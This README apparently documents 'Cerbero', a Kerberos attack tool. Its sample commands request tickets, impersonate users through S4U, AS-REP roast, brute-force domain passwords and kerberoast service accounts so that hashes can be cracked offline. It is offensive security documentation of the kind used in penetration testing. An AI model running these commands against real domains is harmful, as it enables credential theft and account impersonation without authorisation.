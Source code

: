 <!-- cargo-sync-readme start -->

# Cerbero
## TODOS
- asreproast: produce valid hashcat formats for aes128 and aes256
- asreproast: produce valid john formats
- kerberoast: produce valid hashcat formats for aes128 and aes256
- kerberoast: produce valid john formats
- kerberoast: include swtich to select the desired cipher

## Ask module
To request Kerberos tickets.

Ask TGT:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!!
```

Ask TGS:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --spn ldap/under.world
```

Perform S4u2self:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus
```

Perform S4u2proxy:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus --spn ldap/under.world
```
### TODO
- renew tickets

## AsRepRoast module
To discover users that do not require pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```


### TODO
- Perform LDAP query to retrieve the users with no pre-authentication required


## Brute module
To discover user credentials by performing kerberos bruteforce attack.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

## Convert module
To convert ticket files between krb (Windows) and ccache (Linux) format.


Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```

## Craft module
Module to craft tickets, and create Golden and Silver tickets.

### TODO
- craft golden tickets
- craft silver tickets

## Edit module
To edit several parts of a ticket, such as the target spn 

### TODO
- edit target spn of a ticket
- split ticket file in several file with one ticket per file
- join several ticket files in just one file

## Kerberoast module
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```

### TODO
- Perform LDAP query to retrieve users with services


## List module
Show contents of a tickets file.


```shell
cerbero list hades.ccache
```

### TODO
- Show session keys
- Show keytab contents

## Purge module
To delete current files

TODO

<!-- cargo-sync-readme end -->
